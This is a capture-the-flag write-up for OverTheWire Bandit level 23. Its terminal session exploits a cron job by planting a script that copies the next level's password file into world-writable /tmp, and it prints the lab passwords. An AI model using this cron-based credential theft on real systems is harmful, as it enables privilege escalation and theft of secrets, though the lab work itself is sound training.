 
# Bandit challenges
# Bandit 23#

## Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Access data

+ Username: bandit23
+ Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
+ Port: 2220
+ Server: bandit.labs.overthewire.org
## Solution

```bash

ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit:~$ ls --all /etc/cron.d/
.   cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  .placeholder
..  cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir  sysstat
bandit23@bandit:~$ file /etc/cron.d/cronjob_bandit24
/etc/cron.d/cronjob_bandit24: ASCII text
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir -p /tmp/37183179
bandit23@bandit:~$ cd /tmp/37183179

bandit23@bandit:/tmp/37183179$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/37183179$ chmod +rx script.sh
bandit23@bandit:/tmp/37183179$ chmod 777 /tmp/37183179
bandit23@bandit:/tmp/37183179$ chmod +rwx password
bandit23@bandit:/tmp/37183179$ ls -la
total 408
drwxrwxrwx   2 bandit23 bandit23   4096 Feb 25 01:33 .
drwxrwx-wt 499 root     root     405504 Feb 25 01:34 ..
-rwxrwxr-x   1 bandit23 bandit23      0 Feb 25 01:32 password
-rwxrwxr-x   1 bandit23 bandit23     67 Feb 25 01:33 script.sh
bandit23@bandit:/tmp/37183179$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/37183179$ cat password
bandit23@bandit:/tmp/37183179$ cat password
bandit23@bandit:/tmp/37183179$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/37183179$ chmod 666 password
bandit23@bandit:/tmp/37183179$ ls -al password
-rw-rw-rw- 1 bandit23 bandit23 0 Feb 25 01:32 password
bandit23@bandit:/tmp/37183179$ cat password
bandit23@bandit:/tmp/37183179$ cat script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/37183179/password
bandit23@bandit:/tmp/37183179$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/37183179$ ls -al password
-rw-rw-rw- 1 bandit23 bandit23 0 Feb 25 01:32 password
bandit23@bandit:/tmp/37183179$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/37183179$

````

## Notes

## References